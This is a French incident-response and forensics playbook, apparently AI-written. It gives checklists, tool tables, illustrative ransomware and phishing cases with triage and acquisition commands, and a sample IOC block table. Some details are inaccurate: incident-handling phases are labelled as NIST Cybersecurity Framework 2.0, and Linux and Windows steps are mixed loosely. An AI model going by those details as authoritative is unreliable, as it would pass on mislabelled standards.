

# 🛡️ MANUEL DFIR ULTRA PRO
## 🔍 Digital Forensics & Incident Response Playbook

---

<div align="center">

**📖 Guide Professionnel pour l'Investigation Numérique et la Réponse à Incident**

*Version 1.0 | Juin 2025*


**Destiné aux:** Analystes DFIR, Experts en Cybersécurité, Équipes SOC

</div>

---

## 📋 Table des Matières

### 🏗️ [PARTIE I - FONDAMENTAUX DFIR](#partie-i---fondamentaux-dfir)
- [📚 Chapitre 1: Introduction au DFIR](#chapitre-1-introduction-au-dfir)
- [⚖️ Chapitre 2: Frameworks et Méthodologies](#chapitre-2-frameworks-et-méthodologies)
- [🔒 Chapitre 3: Aspects Légaux et Chain of Custody](#chapitre-3-aspects-légaux-et-chain-of-custody)
- [🛠️ Chapitre 4: Outils Essentiels](#chapitre-4-outils-essentiels)

### 🎯 [PARTIE II - PROCÉDURES OPÉRATIONNELLES](#partie-ii---procédures-opérationnelles)
- [🚀 Chapitre 5: Phase de Préparation](#chapitre-5-phase-de-préparation)
- [🔍 Chapitre 6: Phase d'Identification](#chapitre-6-phase-didentification)
- [🛡️ Chapitre 7: Phase de Confinement](#chapitre-7-phase-de-confinement)
- [🧹 Chapitre 8: Phase d'Éradication](#chapitre-8-phase-déradication)
- [🔄 Chapitre 9: Phase de Récupération](#chapitre-9-phase-de-récupération)
- [📝 Chapitre 10: Phase de Leçons Apprises](#chapitre-10-phase-de-leçons-apprises)

### 💼 [PARTIE III - CAS PRATIQUES](#partie-iii---cas-pratiques)
- [🔐 Chapitre 11: Incidents Ransomware](#chapitre-11-incidents-ransomware)
- [🎣 Chapitre 12: Attaques Phishing](#chapitre-12-attaques-phishing)
- [🌐 Chapitre 13: Compromission Serveurs Web](#chapitre-13-compromission-serveurs-web)
- [🔄 Chapitre 14: Mouvements Latéraux](#chapitre-14-mouvements-latéraux)
- [⛏️ Chapitre 15: Cryptominers et Malware](#chapitre-15-cryptominers-et-malware)

### 🔬 [PARTIE IV - TECHNIQUES AVANCÉES](#partie-iv---techniques-avancées)
- [🧠 Chapitre 16: Analyse Forensique Mémoire](#chapitre-16-analyse-forensique-mémoire)
- [⏰ Chapitre 17: Analyse Timeline](#chapitre-17-analyse-timeline)
- [🌐 Chapitre 18: Analyse Réseau](#chapitre-18-analyse-réseau)
- [🔍 Chapitre 19: Reverse Engineering](#chapitre-19-reverse-engineering)
- [☁️ Chapitre 20: Investigation Cloud](#chapitre-20-investigation-cloud)

### 📚 [PARTIE V - RESSOURCES](#partie-v---ressources)
- [✅ Chapitre 21: Checklists et Templates](#chapitre-21-checklists-et-templates)
- [🤖 Chapitre 22: Scripts et Automatisation](#chapitre-22-scripts-et-automatisation)
- [🎓 Chapitre 23: Formation Continue](#chapitre-23-formation-continue)

---

## 🎯 Objectifs du Manuel

> **🎯 Mission:** Fournir un guide complet et pratique pour les professionnels DFIR, avec des procédures éprouvées, des cas réels et des outils de terrain.

### 🌟 Points Forts
- ✅ **Approche Pratique** - Procédures testées sur le terrain
- ✅ **Cas Réels** - Scénarios basés sur des incidents authentiques
- ✅ **Outils Modernes** - Technologies et méthodes actuelles
- ✅ **Standards Industrie** - Conformité NIST, SANS, ISO 27035
- ✅ **Visuels Professionnels** - Diagrammes, flowcharts, schémas
- ✅ **Templates Prêts** - Checklists et documents utilisables

---

## 📊 Frameworks de Référence

### 🏛️ NIST Cybersecurity Framework 2.0

| Phase | Description | Durée Typique | Priorité |
|-------|-------------|---------------|----------|
| 🚀 **Preparation** | Mise en place des capacités | Continu | 🔴 Critique |
| 🔍 **Detection & Analysis** | Identification et analyse | 1-4 heures | 🔴 Critique |
| 🛡️ **Containment, Eradication & Recovery** | Confinement et nettoyage | 1-7 jours | 🟡 Élevée |
| 📝 **Post-Incident Activity** | Retour d'expérience | 1-2 semaines | 🟢 Normale |

### 🎯 SANS PICERL Methodology



| Phase | Objectifs Clés | Livrables | Outils Principaux |
|-------|----------------|-----------|-------------------|
| 🚀 **Preparation** | • Équipes formées<br>• Procédures définies<br>• Outils déployés | • Playbooks<br>• Jump bags<br>• Contacts | • Documentation<br>• Formation<br>• Outils DFIR |
| 🔍 **Identification** | • Détection incident<br>• Classification<br>• Notification | • Rapport initial<br>• Classification<br>• Timeline | • SIEM<br>• Monitoring<br>• Alertes |
| 🛡️ **Containment** | • Arrêter propagation<br>• Préserver preuves<br>• Maintenir activité | • Images forensiques<br>• Logs préservés<br>• Mesures confinement | • Write blockers<br>• Outils imagerie<br>• Isolation réseau |
| 🧹 **Eradication** | • Supprimer menace<br>• Corriger vulnérabilités<br>• Renforcer sécurité | • Rapport nettoyage<br>• Patches appliqués<br>• Configurations | • Antimalware<br>• Outils nettoyage<br>• Gestion patches |
| 🔄 **Recovery** | • Restaurer services<br>• Surveiller activité<br>• Valider sécurité | • Services restaurés<br>• Monitoring renforcé<br>• Tests validation | • Outils monitoring<br>• Tests sécurité<br>• Validation |
| 📝 **Lessons Learned** | • Analyser incident<br>• Améliorer processus<br>• Former équipes | • Rapport final<br>• Recommandations<br>• Plan amélioration | • Documentation<br>• Métriques<br>• Formation |

---

## 🛠️ Arsenal d'Outils DFIR

### 🏆 Outils Leaders du Marché

#### 💎 Solutions Commerciales Premium
| Outil | Éditeur | Spécialité | Niveau | Prix |
|-------|---------|------------|--------|------|
| **Magnet AXIOM** | Magnet Forensics | Investigation complète | 🔴 Expert | 💰💰💰 |
| **Cellebrite UFED** | Cellebrite | Mobile forensics | 🔴 Expert | 💰💰💰 |
| **EnCase** | OpenText | Enterprise forensics | 🔴 Expert | 💰💰💰 |
| **FTK** | Exterro | Digital investigation | 🟡 Avancé | 💰💰 |
| **X-Ways Forensics** | X-Ways | Analyse forensique | 🟡 Avancé | 💰 |

#### 🆓 Solutions Open Source
| Outil | Spécialité | Plateforme | Difficulté |
|-------|------------|------------|------------|
| **Autopsy** | Interface TSK | Windows/Linux | 🟢 Facile |
| **The Sleuth Kit** | Analyse filesystem | Multi-plateforme | 🟡 Moyen |
| **Volatility** | Analyse mémoire | Multi-plateforme | 🔴 Difficile |
| **Plaso** | Timeline analysis | Multi-plateforme | 🟡 Moyen |
| **YARA** | Détection malware | Multi-plateforme | 🟡 Moyen |

### 🎯 Outils par Phase d'Investigation

#### 🔍 Phase d'Identification
```bash
# Outils de détection et monitoring
🔍 SIEM Solutions: Splunk, ELK Stack, QRadar
🔍 EDR Tools: CrowdStrike, SentinelOne, Carbon Black
🔍 Network Monitoring: Wireshark, Zeek, Suricata
🔍 Log Analysis: Graylog, Fluentd, Logstash
```

#### 🛡️ Phase de Préservation
```bash
# Outils d'acquisition et préservation
💾 Imaging Tools: dd, dcfldd, FTK Imager, Guymager
💾 Write Blockers: Tableau, CRU, WiebeTech
💾 Hash Verification: md5sum, sha256sum, hashdeep
💾 Memory Acquisition: DumpIt, Belkasoft RAM Capturer
```

#### 🔬 Phase d'Analyse
```bash
# Outils d'analyse forensique
🔬 File Analysis: binwalk, file, strings, hexdump
🔬 Registry Analysis: RegRipper, Registry Explorer
🔬 Timeline Analysis: log2timeline, Plaso, Timesketch
🔬 Network Analysis: NetworkMiner, tcpdump, tshark
```

---

## 🚨 Procédures d'Urgence - Golden Hour

### ⚡ Checklist Première Réponse (0-60 minutes)

#### 🔥 Actions Immédiates (0-15 min)
- [ ] **🚨 Confirmer l'incident** - Validation initiale
- [ ] **📞 Alerter l'équipe DFIR** - Notification équipe
- [ ] **🔒 Isoler les systèmes affectés** - Confinement initial
- [ ] **📸 Capturer l'état actuel** - Screenshots, photos
- [ ] **⏰ Noter l'heure précise** - Timestamp incident

#### 🎯 Évaluation Rapide (15-30 min)
- [ ] **🔍 Identifier le type d'incident** - Classification
- [ ] **📊 Évaluer l'impact** - Criticité et étendue
- [ ] **👥 Identifier les parties prenantes** - Contacts clés
- [ ] **📋 Activer le playbook approprié** - Procédure spécifique
- [ ] **🔐 Sécuriser les preuves** - Préservation initiale

#### 🛡️ Confinement Initial (30-60 min)
- [ ] **🌐 Isoler réseau** - Déconnexion contrôlée
- [ ] **💾 Acquérir la mémoire** - Dump RAM
- [ ] **📁 Préserver les logs** - Sauvegarde logs
- [ ] **🔍 Identifier les IOCs** - Indicateurs compromission
- [ ] **📞 Notifier la direction** - Communication management

---

## 💼 Cas Pratiques Détaillés

### 🔐 Cas #1: Incident Ransomware BlackSuit

#### 📋 Contexte
**🏢 Organisation:** PME 150 employés  
**🎯 Vecteur d'attaque:** Faux site Zoom  
**⏰ Détection:** Écrans de rançon utilisateurs  
**💰 Demande:** 50 BTC (~2M€)  

#### 🔍 Symptômes Observés
- 🚨 **Écrans de rançon** sur postes utilisateurs
- 📁 **Fichiers chiffrés** avec extension `.blacksuit`
- 🌐 **Connexions suspectes** vers IPs externes
- 🔄 **Processus anormaux** en cours d'exécution
- 📧 **Emails de rançon** reçus par la direction

#### 🛠️ Investigation Détaillée

##### Phase 1: Identification (0-2h)
```bash
# Commandes d'investigation initiale
🔍 netstat -an | grep ESTABLISHED
🔍 ps aux | grep -E "(encrypt|crypt|lock)"
🔍 find / -name "*.blacksuit" -type f | head -20
🔍 tail -f /var/log/syslog | grep -i "blacksuit"
```

##### Phase 2: Préservation (2-4h)
```bash
# Acquisition mémoire et disque
💾 DumpIt.exe /output C:\forensics\memory.dmp
💾 dd if=/dev/sda of=/mnt/evidence/disk.img bs=4M
💾 md5sum /mnt/evidence/disk.img > /mnt/evidence/disk.img.md5
```

##### Phase 3: Analyse (4-24h)
```bash
# Analyse avec Volatility
🔬 volatility -f memory.dmp --profile=Win10x64 pslist
🔬 volatility -f memory.dmp --profile=Win10x64 netscan
🔬 volatility -f memory.dmp --profile=Win10x64 malfind
```

#### 📊 Timeline d'Attaque Reconstituée

| Heure | Événement | Artefact | Criticité |
|-------|-----------|----------|-----------|
| **09:15** | Visite site malveillant | Logs proxy | 🟡 |
| **09:16** | Téléchargement fake Zoom | Logs téléchargement | 🟡 |
| **09:17** | Exécution malware | Process creation | 🔴 |
| **09:20** | Reconnaissance réseau | Network scans | 🔴 |
| **09:45** | Mouvement latéral | SMB connections | 🔴 |
| **10:30** | Déploiement ransomware | File modifications | 🔴 |
| **10:35** | Chiffrement massif | Disk activity | 🔴 |
| **10:40** | Affichage rançon | Screen captures | 🔴 |

#### 🎯 Actions de Réponse

##### 🛡️ Confinement
- ✅ **Isolation réseau** - Déconnexion VLAN infecté
- ✅ **Arrêt processus** - Kill processus malveillants
- ✅ **Blocage IOCs** - Firewall rules
- ✅ **Préservation preuves** - Images forensiques

##### 🧹 Éradication
- ✅ **Nettoyage malware** - Suppression artefacts
- ✅ **Patch vulnérabilités** - Mise à jour sécurité
- ✅ **Renforcement** - Durcissement configuration
- ✅ **Validation** - Tests sécurité

##### 🔄 Récupération
- ✅ **Restauration données** - Backup clean
- ✅ **Tests fonctionnels** - Validation services
- ✅ **Monitoring renforcé** - Surveillance accrue
- ✅ **Formation utilisateurs** - Sensibilisation

#### 📝 Leçons Apprises
- 🎯 **Formation utilisateurs** insuffisante sur phishing
- 🔒 **Segmentation réseau** à améliorer
- 💾 **Stratégie backup** à renforcer
- 🔍 **Détection EDR** à déployer

---

### 🎣 Cas #2: Campagne Phishing Sophistiquée

#### 📋 Contexte
**🏢 Organisation:** Grande entreprise 2000+ employés  
**🎯 Vecteur:** Emails phishing ciblés (spear phishing)  
**⏰ Détection:** Alertes SOC sur connexions anormales  
**🎯 Objectif:** Vol credentials et données sensibles  

#### 🔍 Symptômes Observés
- 📧 **Emails suspects** avec liens malveillants
- 🔐 **Connexions anormales** depuis IPs étrangères
- 📊 **Trafic réseau** vers domaines suspects
- 🔑 **Tentatives d'authentification** multiples
- 📁 **Accès fichiers sensibles** non autorisés

#### 🛠️ Investigation Email

##### 📧 Analyse Headers Email
```bash
# Extraction et analyse headers
📧 formail -X "Received:" < suspicious_email.eml
📧 formail -X "Authentication-Results:" < suspicious_email.eml
📧 dig TXT _dmarc.suspicious-domain.com
📧 dig TXT suspicious-domain.com
```

##### 🔗 Analyse URL Malveillante
```bash
# Investigation URL et domaine
🔗 curl -I "http://suspicious-domain.com/login"
🔗 whois suspicious-domain.com
🔗 nslookup suspicious-domain.com
🔗 virustotal-cli url "http://suspicious-domain.com/login"
```

#### 📊 Indicateurs de Compromission (IOCs)

| Type | Valeur | Criticité | Action |
|------|--------|-----------|--------|
| **Domain** | `secure-0ffice365.com` | 🔴 Élevée | Bloquer DNS |
| **IP** | `185.234.72.45` | 🔴 Élevée | Bloquer firewall |
| **Hash** | `a1b2c3d4e5f6...` | 🔴 Élevée | Signature AV |
| **Email** | `admin@secure-0ffice365.com` | 🟡 Moyenne | Bloquer SMTP |
| **URL** | `/login.php?token=...` | 🔴 Élevée | Bloquer proxy |

---

## 🔬 Techniques d'Analyse Avancées

### 🧠 Analyse Mémoire avec Volatility

#### 🚀 Commandes Essentielles
```bash
# Identification du profil
🧠 volatility -f memory.dmp imageinfo

# Analyse des processus
🧠 volatility -f memory.dmp --profile=Win10x64 pslist
🧠 volatility -f memory.dmp --profile=Win10x64 pstree
🧠 volatility -f memory.dmp --profile=Win10x64 psxview

# Analyse réseau
🧠 volatility -f memory.dmp --profile=Win10x64 netscan
🧠 volatility -f memory.dmp --profile=Win10x64 netstat

# Détection malware
🧠 volatility -f memory.dmp --profile=Win10x64 malfind
🧠 volatility -f memory.dmp --profile=Win10x64 hollowfind
```

#### 🎯 Plugins Spécialisés
| Plugin | Usage | Sortie |
|--------|-------|--------|
| `pslist` | Liste processus | PID, PPID, nom, temps |
| `netscan` | Connexions réseau | IP, ports, état |
| `malfind` | Code injecté | Adresses, permissions |
| `yarascan` | Signatures YARA | Matches, offsets |
| `timeliner` | Timeline événements | Chronologie activité |

### ⏰ Analyse Timeline avec Plaso

#### 🔄 Workflow Complet
```bash
# Extraction timeline
⏰ log2timeline.py timeline.plaso disk_image.dd

# Filtrage et analyse
⏰ psort.py -o dynamic timeline.plaso > timeline.csv
⏰ psort.py -o xlsx timeline.plaso -w timeline.xlsx

# Recherche spécifique
⏰ psort.py timeline.plaso "date > '2025-06-01' and date < '2025-06-10'"
```

#### 📊 Sources d'Artefacts
- 🗂️ **Filesystem** - MFT, journaux, métadonnées
- 📝 **Registry** - Clés système, utilisateur, logiciels
- 📧 **Applications** - Browsers, email, messagerie
- 🌐 **Network** - Logs connexions, proxy, DNS
- 🔐 **Security** - Logs authentification, audit

---

## ✅ Checklists de Terrain

### 🚨 Checklist Incident Majeur

#### Phase Initiale (0-30 min)
- [ ] 🚨 **Confirmer incident** - Validation avec témoin
- [ ] ⏰ **Noter timestamp** - Heure précise UTC
- [ ] 📞 **Alerter équipe** - Notification DFIR team
- [ ] 🔒 **Isoler systèmes** - Déconnexion contrôlée
- [ ] 📸 **Documenter état** - Photos, screenshots
- [ ] 🔐 **Sécuriser scène** - Accès restreint
- [ ] 📋 **Ouvrir ticket** - Référence incident
- [ ] 👥 **Identifier contacts** - Parties prenantes

#### Phase Investigation (30 min - 4h)
- [ ] 💾 **Acquérir mémoire** - Dump RAM complet
- [ ] 📁 **Préserver logs** - Copie logs système
- [ ] 🔍 **Identifier IOCs** - Indicateurs compromission
- [ ] 🌐 **Analyser réseau** - Trafic suspect
- [ ] 📊 **Créer timeline** - Chronologie événements
- [ ] 🔬 **Analyser artefacts** - Preuves numériques
- [ ] 📝 **Documenter findings** - Rapport préliminaire
- [ ] 🎯 **Définir stratégie** - Plan d'action

#### Phase Confinement (4h - 24h)
- [ ] 🛡️ **Implémenter confinement** - Mesures isolation
- [ ] 🔄 **Surveiller propagation** - Monitoring étendu
- [ ] 📊 **Évaluer impact** - Étendue compromission
- [ ] 🔍 **Rechercher persistance** - Mécanismes cachés
- [ ] 📞 **Communiquer status** - Mise à jour direction
- [ ] 🎯 **Préparer éradication** - Plan nettoyage
- [ ] 📝 **Mettre à jour documentation** - Rapport détaillé
- [ ] 🔐 **Renforcer sécurité** - Mesures additionnelles

### 🔍 Checklist Acquisition Forensique

#### Préparation
- [ ] 🛠️ **Vérifier outils** - Write blockers, câbles
- [ ] 💾 **Préparer stockage** - Disques destination
- [ ] 📋 **Préparer documentation** - Formulaires custody
- [ ] 🔐 **Sécuriser environnement** - Zone contrôlée
- [ ] ⚖️ **Vérifier légalité** - Autorisations requises

#### Acquisition
- [ ] 📸 **Photographier système** - État initial
- [ ] 🔌 **Connecter write blocker** - Protection écriture
- [ ] 🔍 **Identifier support** - Type, taille, modèle
- [ ] 💾 **Lancer acquisition** - Imagerie bit-à-bit
- [ ] 🔐 **Calculer hash** - Intégrité données
- [ ] 📝 **Documenter processus** - Chain of custody
- [ ] ✅ **Vérifier intégrité** - Validation hash
- [ ] 📦 **Étiqueter preuves** - Identification unique

---

## 📚 Ressources et Formation

### 🎓 Certifications Recommandées

| Certification | Organisme | Niveau | Durée | Coût |
|---------------|-----------|--------|-------|------|
| **GCIH** | SANS | 🟡 Intermédiaire | 6 mois | 💰💰💰 |
| **GCFA** | SANS | 🔴 Avancé | 6 mois | 💰💰💰 |
| **GNFA** | SANS | 🔴 Expert | 6 mois | 💰💰💰 |
| **CCE** | IACIS | 🟡 Intermédiaire | 3 mois | 💰💰 |
| **EnCE** | OpenText | 🔴 Avancé | 4 mois | 💰💰💰 |

### 📖 Lectures Essentielles

#### 📚 Livres de Référence
- 📖 **"Incident Response & Computer Forensics"** - Luttgens, Pepe, Mandia
- 📖 **"The Art of Memory Forensics"** - Ligh, Case, Levy, Walters
- 📖 **"Digital Forensics with Open Source Tools"** - Altheide, Carvey
- 📖 **"Malware Analyst's Cookbook"** - Ligh, Adair, Hartstein, Richard
- 📖 **"Network Forensics"** - Davidoff, Ham

#### 🌐 Ressources en Ligne
- 🔗 **The DFIR Report** - Cas réels d'incidents
- 🔗 **SANS Reading Room** - Papers techniques
- 🔗 **NIST Publications** - Standards et guides
- 🔗 **FIRST.org** - Communauté incident response
- 🔗 **Volatility Labs** - Recherche memory forensics

### 🛠️ Laboratoires Pratiques

#### 🏠 Lab Personnel
```bash
# Setup environnement DFIR
🏠 VirtualBox/VMware - Hyperviseur
🏠 SIFT Workstation - Distribution DFIR
🏠 REMnux - Analyse malware
🏠 Kali Linux - Tests sécurité
🏠 Windows 10 - Système cible
```

#### ☁️ Labs Cloud
- ☁️ **HackTheBox** - Blue team labs
- ☁️ **TryHackMe** - DFIR rooms
- ☁️ **CyberDefenders** - Blue team challenges
- ☁️ **LetsDefend** - SOC simulation
- ☁️ **SANS NetWars** - Compétitions

---

## 📞 Contacts d'Urgence

### 🚨 Équipe DFIR Interne

| Rôle | Contact | Téléphone | Email | Disponibilité |
|------|---------|-----------|-------|---------------|
| **DFIR Lead** | John Doe | +33 6 XX XX XX XX | john.doe@company.com | 24/7 |
| **Forensics Expert** | Jane Smith | +33 6 XX XX XX XX | jane.smith@company.com | 8h-20h |
| **Malware Analyst** | Bob Wilson | +33 6 XX XX XX XX | bob.wilson@company.com | 9h-18h |
| **Network Analyst** | Alice Brown | +33 6 XX XX XX XX | alice.brown@company.com | 24/7 |

### 🏢 Contacts Externes

| Service | Contact | Téléphone | Utilisation |
|---------|---------|-----------|-------------|
| **ANSSI** | CERT-FR | +33 1 XX XX XX XX | Incidents majeurs |
| **Police** | BEFTI | +33 1 XX XX XX XX | Cybercrimes |
| **Assurance** | Cyber Assur | +33 1 XX XX XX XX | Déclaration sinistre |
| **Juridique** | Cabinet Legal | +33 1 XX XX XX XX | Aspects légaux |

---

## 📋 Annexes

### 🔤 Glossaire

| Terme | Définition |
|-------|------------|
| **APT** | Advanced Persistent Threat - Menace persistante avancée |
| **IOC** | Indicator of Compromise - Indicateur de compromission |
| **TTPs** | Tactics, Techniques, Procedures - Tactiques, techniques, procédures |
| **YARA** | Yet Another Recursive Acronym - Outil de détection malware |
| **SIEM** | Security Information and Event Management |
| **EDR** | Endpoint Detection and Response |
| **SOAR** | Security Orchestration, Automation and Response |

### 📊 Métriques DFIR

| Métrique | Objectif | Mesure |
|----------|----------|--------|
| **MTTD** | Mean Time To Detection | < 24 heures |
| **MTTR** | Mean Time To Response | < 4 heures |
| **MTTC** | Mean Time To Containment | < 2 heures |
| **MTTE** | Mean Time To Eradication | < 48 heures |

---

<div align="center">

## 🎯 Conclusion

**Ce manuel DFIR Ultra Pro vous équipe avec les connaissances, procédures et outils nécessaires pour mener des investigations numériques professionnelles et répondre efficacement aux incidents de sécurité.**

---

*📅 Dernière mise à jour: Juin 2025*  
*✍️ Auteur: Manus AI*  
*📧 Contact: support@manus.ai*

**🔄 Ce document est vivant - Contribuez à son amélioration !**

</div>


---

## 🎯 PARTIE II - PROCÉDURES OPÉRATIONNELLES

> **Objectif:** Détailler chaque phase du cycle de réponse à incident, en fournissant des actions concrètes, des outils recommandés et des points de vigilance pour une gestion efficace des incidents de sécurité.

### 🚀 Chapitre 5: Phase de Préparation

> **"La meilleure défense est une bonne préparation."**

La phase de préparation est cruciale et continue. Elle vise à mettre en place les fondations nécessaires pour détecter, analyser et répondre efficacement aux incidents de sécurité. Une préparation inadéquate peut entraîner des retards coûteux, une perte de preuves et une incapacité à contenir rapidement une menace.

#### 🔑 Objectifs Clés de la Préparation

- **Établir une capacité de réponse à incident:** Définir les rôles, responsabilités et processus.
- **Développer des politiques et procédures:** Documenter les plans de réponse, les playbooks et les checklists.
- **Mettre en place des outils et technologies:** Déployer des solutions de détection, d'analyse et de communication.
- **Former et sensibiliser le personnel:** Assurer que les équipes sont prêtes et que les utilisateurs connaissent les bonnes pratiques.
- **Tester et améliorer continuellement:** Mener des exercices de simulation et mettre à jour les plans.

#### ✅ Actions Concrètes

1.  **Constituer l'Équipe de Réponse à Incident (CSIRT/CERT):**
    *   Définir les membres clés (techniques, légaux, communication, management).
    *   Établir une chaîne de commandement claire.
    *   Assurer une disponibilité 24/7 pour les rôles critiques.

2.  **Développer la Documentation Essentielle:**
    *   **Politique de Réponse à Incident:** Document cadre définissant l'engagement de l'organisation.
    *   **Plan de Réponse à Incident:** Procédures détaillées pour chaque type d'incident.
    *   **Playbooks Spécifiques:** Guides pas-à-pas pour des scénarios courants (ransomware, phishing, etc.).
    *   **Checklists Opérationnelles:** Listes de vérification pour chaque phase.
    *   **Plan de Communication:** Stratégie de communication interne et externe.

3.  **Mettre en Place l'Infrastructure et les Outils:**
    *   **SIEM (Security Information and Event Management):** Centralisation et corrélation des logs.
    *   **EDR (Endpoint Detection and Response):** Surveillance et réponse sur les postes de travail et serveurs.
    *   **IDS/IPS (Intrusion Detection/Prevention System):** Détection et blocage des menaces réseau.
    *   **Outils d'Analyse Forensique:** Logiciels pour l'acquisition, l'analyse et la préservation des preuves (voir [Chapitre 4](#chapitre-4-outils-essentiels)).
    *   **Canaux de Communication Sécurisés:** Moyens de communication dédiés pour l'équipe DFIR.
    *   **Jump Bag / Kit d'Intervention:** Matériel et logiciels prêts à l'emploi pour les interventions sur site.

4.  **Assurer la Formation et la Sensibilisation:**
    *   **Formation Technique des Équipes DFIR:** Sur les outils, techniques et procédures.
    *   **Sensibilisation des Utilisateurs:** Aux risques de sécurité (phishing, mots de passe, etc.).
    *   **Formation des Managers:** Sur leur rôle en cas d'incident.

5.  **Tester et Maintenir la Préparation:**
    *   **Exercices de Simulation (Tabletop Exercises):** Tester les plans et la coordination.
    *   **Tests Techniques (War Games, Red Team/Blue Team):** Évaluer l'efficacité des défenses et des réponses.
    *   **Mises à Jour Régulières:** Des plans, outils, contacts, en fonction des nouvelles menaces et des leçons apprises.
    *   **Veille Technologique et Menaces:** Se tenir informé des dernières tendances.

#### 🛠️ Outils et Technologies Recommandés

| Catégorie | Exemples d'Outils | Usage Principal |
|-----------|-------------------|-----------------|
| **Documentation** | Confluence, SharePoint, Wiki interne | Gestion des politiques, plans, playbooks |
| **Communication** | Signal, Slack (canaux privés), Email chiffré | Communication sécurisée de l'équipe |
| **Gestion de Projet** | Jira, Trello, Asana | Suivi des tâches et des incidents |
| **SIEM/Log Management** | Splunk, ELK Stack, QRadar, Graylog | Collecte, corrélation, analyse des logs |
| **EDR/XDR** | CrowdStrike Falcon, SentinelOne Singularity, Microsoft Defender for Endpoint | Détection et réponse sur les endpoints |
| **IDS/IPS** | Snort, Suricata, Zeek | Détection et prévention des intrusions réseau |
| **Kits d'Intervention** | SIFT Workstation, REMnux, Valises forensiques | Outils portables pour l'investigation |

#### ⚠️ Points de Vigilance

-   **Manque de soutien de la direction:** Essentiel pour les ressources et l'autorité.
-   **Documentation obsolète ou incomplète:** Doit être un document vivant.
-   **Formation insuffisante:** Les équipes et les utilisateurs doivent être préparés.
-   **Outils mal configurés ou non maîtrisés:** Peut nuire à l'efficacité.
-   **Absence de tests réguliers:** Les plans non testés sont susceptibles d'échouer.

---

### 🔍 Chapitre 6: Phase d'Identification et Détection

> **"On ne peut pas combattre ce qu'on ne voit pas."**

La phase d'identification consiste à détecter la survenue d'un incident de sécurité, à en déterminer la nature, l'étendue et l'impact initial. Une identification rapide et précise est cruciale pour minimiser les dommages.

#### 🔑 Objectifs Clés de l'Identification

- **Détecter les événements de sécurité anormaux ou malveillants.**
- **Analyser les alertes et les indicateurs pour confirmer un incident.**
- **Classifier l'incident (type, sévérité, impact potentiel).**
- **Notifier les parties prenantes appropriées.**
- **Commencer la documentation de l'incident (Chain of Custody initiale).**

#### ✅ Actions Concrètes

1.  **Surveillance Continue et Détection d'Anomalies:**
    *   Utiliser les alertes des SIEM, EDR, IDS/IPS, antivirus, etc.
    *   Analyser les logs systèmes, applicatifs et réseau.
    *   Rechercher les comportements inhabituels (connexions suspectes, trafic anormal, modifications de fichiers non autorisées).
    *   Prendre en compte les rapports d'utilisateurs (emails de phishing, comportements étranges des systèmes).

2.  **Analyse et Triage des Alertes:**
    *   **Corréler les informations** provenant de multiples sources.
    *   **Éliminer les faux positifs** pour se concentrer sur les menaces réelles.
    *   **Prioriser les alertes** en fonction de leur criticité et de l'impact potentiel.
    *   Utiliser des bases de connaissances sur les menaces (Threat Intelligence) pour contextualiser les alertes.

3.  **Confirmation et Classification de l'Incident:**
    *   **Valider qu'un incident de sécurité a bien eu lieu.**
    *   **Déterminer le type d'incident:** Malware, ransomware, phishing, DoS/DDoS, intrusion, vol de données, etc.
    *   **Évaluer la sévérité:** Basse, moyenne, haute, critique.
    *   **Estimer l'impact potentiel:** Financier, réputationnel, opérationnel, légal.
    *   Identifier les systèmes, données et utilisateurs affectés.

4.  **Notification et Escalade:**
    *   Suivre le plan de communication défini en phase de préparation.
    *   **Notifier l'équipe DFIR** et les responsables désignés.
    *   **Escalader à la direction** si l'incident est critique.
    *   Informer les équipes IT, sécurité, légales, communication selon les besoins.

5.  **Documentation Initiale:**
    *   **Ouvrir un dossier d'incident** (ticket, fichier de cas).
    *   **Noter la date et l'heure exactes** de la détection et des premières observations (timestamp UTC).
    *   **Décrire les symptômes observés** et les premières actions entreprises.
    *   **Commencer la chaîne de custody** pour toute preuve collectée.
    *   Prendre des captures d'écran, photos des systèmes affectés si pertinent.

#### 🛠️ Outils et Technologies Recommandés

| Catégorie | Exemples d'Outils | Usage Principal |
|-----------|-------------------|-----------------|
| **SIEM/Log Analysis** | Splunk, ELK Stack, QRadar, Graylog | Corrélation d'alertes, analyse de logs |
| **EDR/XDR** | CrowdStrike, SentinelOne, Microsoft Defender | Détection sur endpoints, investigation |
| **IDS/IPS/Firewall** | Snort, Suricata, Palo Alto Networks, Fortinet | Détection d'intrusions, analyse trafic |
| **Threat Intelligence** | VirusTotal, MISP, Recorded Future | Contextualisation des menaces, IOCs |
| **Outils d'Analyse Réseau** | Wireshark, tcpdump, NetworkMiner | Capture et analyse de paquets |
| **Outils d'Analyse Endpoint** | Sysinternals Suite, osquery | Investigation locale sur systèmes |

#### ⚠️ Points de Vigilance

-   **Surcharge d'alertes (Alert Fatigue):** Peut masquer les incidents réels.
-   **Faux positifs / Faux négatifs:** Nécessité d'un bon réglage des outils.
-   **Manque de visibilité:** Zones non surveillées du SI.
-   **Détection tardive:** Augmente l'impact de l'incident.
-   **Documentation insuffisante:** Peut compromettre l'investigation et la réponse.

---


### 🛡️ Chapitre 7: Phase de Confinement

> **"Arrêter l'hémorragie avant de soigner la blessure."**

La phase de confinement vise à limiter l'étendue et l'impact de l'incident en isolant les systèmes affectés et en empêchant la propagation de la menace. Cette phase est critique car elle détermine l'ampleur des dégâts finaux.

#### 🔑 Objectifs Clés du Confinement

- **Arrêter la propagation de la menace** vers d'autres systèmes.
- **Préserver l'intégrité des preuves** pour l'investigation forensique.
- **Maintenir la continuité des activités critiques** autant que possible.
- **Préparer les actions d'éradication** en isolant les systèmes compromis.

#### ✅ Actions Concrètes

1.  **Confinement Court Terme (0-4 heures):**
    *   **Isolation réseau immédiate:** Déconnecter les systèmes compromis du réseau (débrancher câble, désactiver WiFi, VLAN isolation).
    *   **Arrêt des processus malveillants:** Identifier et terminer les processus suspects sans éteindre complètement le système (pour préserver la mémoire).
    *   **Blocage des communications malveillantes:** Bloquer les IPs, domaines et URLs identifiés comme malveillants au niveau firewall/proxy.
    *   **Préservation de la mémoire vive:** Effectuer un dump mémoire avant toute action destructive.
    *   **Notification des utilisateurs:** Informer les utilisateurs des systèmes affectés des mesures prises.

2.  **Confinement Long Terme (4-24 heures):**
    *   **Segmentation réseau avancée:** Créer des VLANs dédiés pour les systèmes compromis permettant l'investigation.
    *   **Renforcement de la surveillance:** Déployer des sondes de monitoring supplémentaires sur les systèmes critiques.
    *   **Acquisition forensique complète:** Créer des images bit-à-bit des disques des systèmes compromis.
